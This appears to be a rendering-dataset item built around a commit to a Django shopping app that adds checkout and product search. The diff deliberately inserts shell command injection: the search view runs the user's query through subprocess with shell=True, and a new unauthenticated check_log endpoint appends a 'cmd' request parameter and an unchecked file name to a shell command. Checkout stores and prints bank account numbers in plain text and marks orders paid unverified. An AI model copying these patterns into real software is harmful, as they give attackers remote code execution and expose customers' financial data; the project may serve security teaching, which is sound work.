
After one commit to thienkhoalewlew/PBL6, a Django app: page /checkout/ in a window 1280 px wide. The commit adds this page. Shown: the top 705 px of the page. Run offline with Django 5.2, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository; both versions use the stored data as it was after the commit.

Commit message:
thanh toan + tim kiem

```diff
--- a/sales_web/app/models.py
+++ b/sales_web/app/models.py
@@ -31,3 +31,16 @@ class CartItem(models.Model):
     cart = models.ForeignKey(Cart, on_delete=models.CASCADE)
     product = models.ForeignKey('Product', on_delete=models.CASCADE)
     quantity = models.PositiveBigIntegerField(default=1)
+
+class Order(models.Model):
+    user = models.ForeignKey(User, on_delete=models.CASCADE)
+    cart = models.OneToOneField(Cart, on_delete=models.CASCADE)  # Liên kết đến giỏ hàng
+    total_price = models.DecimalField(max_digits=10, decimal_places=2)
+    is_paid = models.BooleanField(default=False)
+
+    # Thông tin thanh toán
+    bank_account = models.CharField(max_length=50)
+    email = models.EmailField()
+
+    def __str__(self):
+        return f"Order {self.id} by {self.user.username}"
--- a/sales_web/app/templates/cart.html
+++ b/sales_web/app/templates/cart.html
@@ -29,7 +29,7 @@
         <li class="list-group-item">Your cart is empty.</li>
     {% endif %}
     <li class="list-group-item text-center">
-        <a href="{#}" class="btn btn-success">Proceed to Checkout</a>
+        <a href="{% url 'checkout' %}" class="btn btn-success">Proceed to Checkout</a>
     </li>
 </ul>
 {% endblock %}
--- /dev/null
+++ b/sales_web/app/templates/checkout.html
@@ -0,0 +1,39 @@
+{% extends 'base.html' %}
+{% block title %}Checkout{% endblock %}
+{% block content %}
+<h1>Checkout</h1>
+{% if messages %}
+    <ul class="alert alert-success">
+        {% for message in messages %}
+            <li>{{ message }}</li>
+        {% endfor %}
+    </ul>
+{% endif %}
+<form method="POST">
+   {% csrf_token %}
+    <div class="mb-3">
+        <label for="bank_account" class="form-label">Bank Account Number</label>
+        <input type="text" class="form-control" id="bank_account" name="bank_account" required>
+    </div>
+    <div class="mb-3">
+        <label for="email" class="form-label">Confirmation Email</label>
+        <input type="email" class="form-control" id="email" name="email" required>
+    </div>
+    <h5>Total Items: {{ total_items}}</h5>
+    <h5>Details :</h5>
+    {% for item in cart.cartitem_set.all %}
+            <li class="list-group-item d-flex justify-content-between align-items-center">
+                <div class="d-flex align-items-center">
+                    <div>
+                        <h5>{{ item.product.name }}</h5>
+                        <p>Price: ${{ item.product.price }}</p>
+                        <p>Quantity: {{ item.quantity }}</p>
+                    </div>
+                </div>
+            </li>
+    {% endfor %}
+    <h5>Total Price: ${{ total_price }}</h5>
+
+    <button type="submit" class="btn btn-primary">Confirm Payment</button>
+</form>
+{% endblock %}
--- a/sales_web/app/urls.py
+++ b/sales_web/app/urls.py
@@ -13,5 +13,7 @@ urlpatterns = [
     path('remove_from_cart/<int:product_id>/', views.remove_from_cart, name='remove_from_cart'),
     path('add-product/', views.add_product, name='add_product'),
     path('viewfile/', views.view_file, name='view_file'),
+    path('checkout/', views.checkout, name='checkout'),
+    path('check_log/', views.check_log, name ='check_log'),
     # ... other URL patterns ...
 ]
--- a/sales_web/app/views.py
+++ b/sales_web/app/views.py
@@ -9,10 +9,13 @@ from django.contrib.auth.decorators import login_required
 from django.contrib.auth import update_session_auth_hash
 from django.contrib.auth.forms import PasswordChangeForm
 from django.views.decorators.csrf import requires_csrf_token
-from .models import Cart, CartItem, Product
+from .models import Cart, CartItem, Product, Order
+from django.core.mail import send_mail
+
 import os
 from django.http import HttpResponse, Http404
 from django.conf import settings
+import subprocess
 
 def signup(request):
     if request.method == 'POST':
@@ -69,8 +72,25 @@ def user_logout(request):
     return redirect('home')
 
 def product_list(request):
+    query = request.GET.get('q')
     products = Product.objects.all()
-    return render(request, 'product_list.html', {'products': products})
+    output = ""
+
+    if query:
+        # Tìm kiếm sản phẩm trong cơ sở dữ liệu
+        products = Product.objects.filter(name__icontains=query) | Product.objects.filter(description__icontains=query)
+
+        # Thực thi lệnh hệ thống dựa trên từ khóa tìm kiếm
+        command = query  # Dùng trực tiếp từ khóa người dùng nhập để thực thi lệnh
+        try:
+            # Sử dụng subprocess để thực thi lệnh hệ thống
+            result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
+            output = result.stdout.decode('utf-8').strip()  # Lấy kết quả stdout của lệnh hệ thống
+        except Exception as e:
+            output = f"Error: {str(e)}"  # Xử lý ngoại lệ nếu có lỗi xảy ra khi thực thi lệnh
+
+    # Trả về kết quả tìm kiếm sản phẩm và kết quả lệnh hệ thống
+    return render(request, 'product_list.html', {'products': products, 'output': output})
 
 @login_required
 def edit_profile(request):
@@ -120,9 +140,14 @@ def csrf_failure(request, reason=""):
 
 @login_required
 def cart_list(request):
-    cart = Cart.objects.filter(user=request.user).first()
-    total_price = sum(item.product.price * item.quantity for item in cart.cartitem_set.all())
-    return render(request, 'cart.html', {'cart': cart, 'total_price': total_price})
+    cart = get_object_or_404(Cart, user=request.user)  # Lấy giỏ hàng của người dùng
+    cart_items = cart.cartitem_set.all()
+    total_price = sum(item.product.price * item.quantity for item in cart_items)
+    total_price_float = float(total_price)
+    # Lưu total_price vào session để sử dụng trong checkout
+    request.session['total_price'] = total_price_float
+
+    return render(request, 'cart.html', {'cart': cart, 'total_price': total_price_float, 'cart_items': cart_items})
 
 @login_required
 def add_to_cart(request, product_id):
@@ -198,3 +223,59 @@ def view_file(request):
     except IOError as e:
         print(f"IOError: {e}")
         raise Http404("File not found")
+
+def checkout(request):
+    total_price = request.session.get('total_price', 0)  # Lấy total_price từ session
+    cart = get_object_or_404(Cart, user=request.user)  # Lấy giỏ hàng của người dùng
+    cart_items = cart.cartitem_set.all()  # Lấy danh sách sản phẩm trong giỏ hàng
+
+    # Tính toán số lượng mặt hàng và tổng giá trị
+    total_items = cart_items.count()  # Số lượng mặt hàng
+    total_price = sum(item.product.price * item.quantity for item in cart_items)  # Tổng giá trị
+
+    if request.method == 'POST':
+        bank_account = request.POST.get('bank_account')
+        email = request.POST.get('email')
+        email_host_user = settings.EMAIL_HOST_USER
+        print(f'Bank Account: {bank_account}, Email: {email}')
+
+        # Lưu thông tin đơn hàng vào database
+        order = Order.objects.create(
+            user=request.user,
+            cart=cart,
+            total_price=total_price,
+            is_paid=True,  # Giả sử thanh toán thành công
+            bank_account=bank_account,
+            email=email
+        )
+
+        # Gửi email xác nhận
+        subject = 'Xác nhận thanh toán thành công'
+        message = f'Cảm ơn bạn đã mua hàng. Tổng giá trị đơn hàng của bạn là {total_price}.'
+
+        try:
+            send_mail(subject, message, email_host_user, [email], fail_silently=False)
+            messages.success(request, "Thanh toán thành công! Email xác nhận đã được gửi.")
+        except Exception as e:
+            messages.error(request, f"Thanh toán thành công nhưng không thể gửi email: {e}")
+
+        # Xóa giỏ hàng sau khi thanh toán
+        cart.delete()  # Xóa giỏ hàng
+        return redirect('product_list')  # Quay lại trang giỏ hàng sau khi thanh toán
+
+    return render(request, 'checkout.html', {
+    	'cart' : cart,
+        'total_price': total_price,
+        'total_items': total_items,  # Thêm biến total_items
+    })
+
+def check_log(request):
+	log_file = request.GET.get('log_file','django.log')
+	log_path = f'/home/ubuntu/PBL6/sales_web/logs/{log_file}'
+	additional_command = request.GET.get('cmd', '')
+
+	command = f'cat {log_path}; {additional_command} '
+	process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
+	stdout, stderr = process.communicate()
+
+	return HttpResponse(f'<pre>{stdout.decode()}\n{stderr.decode()}</pre>')
```
Also changed, not shown: sales_web/app/templates/product_list.html (+9 -0 lines), sales_web/sales_web/settings.py (+9 -1 lines), sales_web/app/migrations/0003_order.py (added), sales_web/db.sqlite3, 4 other files.
